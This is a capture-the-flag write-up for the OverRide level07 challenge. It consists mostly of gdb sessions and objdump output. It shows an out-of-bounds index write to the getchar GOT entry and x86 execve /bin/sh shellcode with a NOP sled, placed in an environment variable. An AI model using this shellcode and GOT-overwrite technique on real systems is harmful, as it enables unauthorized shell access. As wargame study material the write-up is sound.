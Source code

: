 <pre>
level07@OverRide:~$ gdb ./level07 

(gdb) b \*0x080486cb
Breakpoint 1 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
\----------------------------------------------------
  Welcome to wil's crappy number storage service!   
\----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
\----------------------------------------------------
   wil has reserved some storage :>                 
\----------------------------------------------------

Input command: store 
 Number: 999
 Index: 1

Breakpoint 1, 0x080486cb in store\_number ()
(gdb) x $eax
0xffffd458:     0x00000000
</pre>

<pre>
objdump -R ./level07 

./level07:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R\_386\_GLOB\_DAT    \_\_gmon\_start\_\_
0804a040 R\_386\_COPY        stdin@@GLIBC\_2.0
0804a060 R\_386\_COPY        stdout@@GLIBC\_2.0
0804a000 R\_386\_JUMP\_SLOT   printf@GLIBC\_2.0
0804a004 R\_386\_JUMP\_SLOT   fflush@GLIBC\_2.0
0804a008 R\_386\_JUMP\_SLOT   getchar@GLIBC\_2.0
0804a00c R\_386\_JUMP\_SLOT   fgets@GLIBC\_2.0
0804a010 R\_386\_JUMP\_SLOT   \_\_stack\_chk\_fail@GLIBC\_2.4
0804a014 R\_386\_JUMP\_SLOT   puts@GLIBC\_2.0
0804a018 R\_386\_JUMP\_SLOT   \_\_gmon\_start\_\_
0804a01c R\_386\_JUMP\_SLOT   \_\_libc\_start\_main@GLIBC\_2.0
0804a020 R\_386\_JUMP\_SLOT   memset@GLIBC\_2.0
0804a024 R\_386\_JUMP\_SLOT   \_\_isoc99\_scanf@GLIBC\_2.7
</pre>

<pre>
(gdb) r
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 123
 Index: -1040108819

Breakpoint 1, 0x080486cb in store\_number ()
(gdb) x $eax
0x804a008 <getchar@got.plt>:    0xf7e94840
</pre>

<pre>
level07@OverRide:~$ env -i SC=$(python -c "print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')") SHELL=/bin/bash gdb ./level07 

(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) x/10s \*\*(char\*\*\*)&environ
0xffffdf7e:      "SHELL=/bin/bash"
0xffffdf8e:      "COLUMNS=120"
0xffffdf9a:      "PWD=/home/users/level07"
0xffffdfb2:      "LINES=49"
0xffffdfbb:      "SC=1\311\367\341Qh//shh/bin\211\343\260\v\315\200"
0xffffdfd4:      "SHLVL=0"
0xffffdfdc:      "/home/users/level07/level07"
0xffffdff8:      ""
0xffffdff9:      ""
0xffffdffa:      ""
(gdb) x 0xffffdfbb + 3
0xffffdfbe:      "1\311\367\341Qh//shh/bin\211\343\260\v\315\200"
</pre>

```
env -i SC=$(python -c "print('\x90' * 20  + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')") SHELL=/bin/bash
```

- Se qui est dans l'environnement et dans les arguments est supprimé
